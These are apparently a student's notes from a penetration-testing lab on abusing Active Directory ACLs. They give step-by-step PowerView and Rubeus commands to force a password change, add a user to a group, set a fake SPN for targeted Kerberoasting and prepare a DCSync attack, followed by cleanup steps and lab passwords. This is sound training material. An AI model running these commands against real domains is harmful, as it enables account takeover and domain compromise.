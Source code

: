# Abusing ACLs
---
- We are in control of the **`wley` user whose NTLMv2 hash we retrieved by running Responder** earlier in the assessment. 
- Lucky for us, this user was using a weak password, and we were able to **crack the hash offline using Hashcat and retrieve the cleartext** value. 
- We know that we can use this access to kick off an attack chain that will result in us **taking control of the `adunn` user who can perform the DCSync attack**, which would give us full control of the domain by allowing us to retrieve the NTLM password hashes for all users in the domain and escalate privileges to Domain/Enterprise Admin and even achieve persistence. 
- To **==perform the attack chain==**, we have to do the following:
	
	1. Use the **`wley` user to change the password for the `damundsen`** user
	2. **Authenticate as the `damundsen` user** and **leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group**
	3. **Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user**

- So, first, w**e must authenticate as `wley` and force change the password of the user `damundsen`.** 
- We can start by **opening a PowerShell console and authenticating as the `wley` user**

## Creating a PSCredential Object
- `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
- `$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`
  
- Next, we must **create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.**

## Creating a SecureString Object
- `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`
  
- Finally, we'll **use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password.**
- We need to use the **`-Credential` flag with the credential object we created for the `wley` user.**
- It's best to always specify the **`-Verbose` flag to get feedback** on the command
- We could do this from a **Linux attack host using a tool such as `pth-net`, which is part of the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).**

## Changing the User's Password
- `cd C:\Tools\`
- `Import-Module .\PowerView.ps1`
- `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`

- Next, we need to **perform a similar process to authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.**

## Creating a SecureString Object using damundsen
- `$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`
- `$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)`

- Next, we can use the **[Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.**
- We can **first confirm that our user is not a member of the target group**. 
- This could also be done from a Linux host using the `pth-toolkit`.

## Adding damundsen to the Help Desk Level 1 Group
- `Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`
- `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`

## Confirming damundsen was Added to the Group
- `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName`

- At this point, **we should be able to leverage our new group membership to take control over the `adunn` user.**
- Now, let's say that our client permitted us to change the password of the `damundsen` user, **but the `adunn` user is an admin account that cannot be interrupted.**
- Since **we have `GenericAll` rights over this account,** we can have even more fun and **perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN** that **we can then Kerberoast to obtain the TGS ticket** and (hopefully) crack the hash offline using Hashcat.
- We **must be authenticated as a member of the `Information Technology` group** for this to be successful. 
	- Since **we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership.**

- We can now **use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN**. 
- We could use the t**ool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host,** and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

## Creating a Fake SPN
- `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
- If this worked, **we should be able to Kerberoast the user using any number of methods** and obtain the hash for offline cracking.

## Kerberoasting with Rubeus
- `.\Rubeus.exe kerberoast /user:adunn /nowrap`

Once we have the **==cleartext password, we could now authenticate as the `adunn` user and perform the DCSync attack==**, which we will cover in the next section.

## Cleanup

In terms of cleanup, there are a few things we need to do:

1. **Remove the fake SPN** we created on the `adunn` user.
2. **Remove the `damundsen` user from the `Help Desk Level 1`** group
3. **Set the password for the `damundsen` user back to its original value** (if we know it) or have our client set it/alert the user

## Removing the Fake SPN from adunn's Account
- `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose`
## Removing damundsen from the Help Desk Level 1 Group
- `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose`

# LABS
---
- `$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force`
- `adnun` : `SyncMaster757`